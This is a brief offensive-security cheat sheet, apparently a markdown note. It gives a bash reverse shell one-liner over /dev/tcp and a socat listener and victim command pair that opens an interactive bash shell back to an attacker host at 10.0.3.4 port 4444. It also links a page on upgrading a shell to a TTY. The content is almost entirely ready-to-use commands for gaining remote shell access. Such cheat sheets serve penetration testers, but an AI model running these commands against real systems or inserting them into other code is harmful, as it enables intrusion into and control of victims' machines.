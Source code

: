 ## Bash reverse shell

     bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'

## Upgrade simple shell to tty

https://netsec.ws/?p=337

**socat method**

#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
